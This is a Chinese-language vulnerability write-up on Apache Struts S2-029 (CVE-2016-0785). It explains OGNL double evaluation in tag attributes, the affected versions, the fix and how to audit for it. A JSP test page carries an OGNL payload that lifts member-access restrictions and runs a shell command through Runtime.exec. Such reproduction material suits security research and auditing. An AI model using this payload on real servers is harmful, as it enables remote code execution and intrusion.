 # （CVE-2016-0785）S2-029

## 一、漏洞简介

代码执行过程大致为先尝试获取value的值，如果value为空，那么就二次解释执行了name。并且在执行前给name加上了”%{}”。最终造成二次执行。因此需要的条件极为苛刻，特殊的代码，value值为空，可以传参到value，控制name，严格来说应该是个本地漏洞。

## 二、漏洞影响

Struts 2.0.0 - Struts 2.3.24.1（2.3.20.3除外）

## 三、复现过程

S2-029的公告说是可能的远程代码执行。而且依然是ognl导致的。

```bash
The Apache Struts frameworks performs double evaluation of attributes values assigned to certain tags so it is possible to pass in a value that will be evaluated again when a tag’s attributes will be rendered.

```

目前网上已经有一些成熟的参考的资料了。详见文末参考资料。这次的漏洞虽然是代码执行。但是风险不高，需要开发者使用了特定的代码写法才会导致漏洞。需要直接将用户提交的数据通过标签设置成属性值。

比如：

```bash
<s:i18n name="%&#123#request.lan&#125">xxxxx</s:i18n>
<set var="%&#123#parameters.tang3&#125"/>

```

通过`%&#123#&#125`的方式获取用户输入放入标签属性，会导致代码执行。struts2的修复方式也是直接过滤了`%&#123&#125`形式的字符串的ognl解析。

![1.png](images/cba795e12a2944abb92604f0b1b68452.png)

```
这段代码的修改用来处理掉了非%&#123开头，&#125结尾的字符串进行ognl解析的功能，这里我们来举个例子：bar%&#1232+3&#125，在修改之前的代码中2+3是会被作为ognl执行的。那么修改后，这种形式就只会被当做字符串来返回。

```

审计方式就是查看是否有`%&#123#&#125`这种方式获取用户输入变量复制给标签属性的代码写法。

测试代码：

```java
<%@page import="java.util.HashSet"%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ taglib prefix="s" uri="/struts-tags" %>
<html>
<head><title>Demo jsp page</title></head>
<body>
<%
  request.setAttribute("lan", "'),#_memberAccess['allowPrivateAccess']=true,#_memberAccess['allowProtectedAccess']=true,#_memberAccess['allowPackageProtectedAccess']=true,#_memberAccess['allowStaticMethodAccess']=true,#_memberAccess['excludedPackageNamePatterns']=#_memberAccess['acceptProperties'],#_memberAccess['excludedClasses']=#_memberAccess['acceptProperties'],#a=@java.lang.Runtime@getRuntime(),#a.exec('touch /tmp/1111'),new java.lang.String('");
%>
<s:i18n name="%&#123#request.lan&#125">xxxxx</s:i18n>
</body>
</html>

```

![2.png](images/8041e26984fe430cb82ba2ef5134fb5.png)

查看tmp目录文件已经生成。

![3.png](images/8041e26984fe430cb82ba2ef5134fb5e.png)

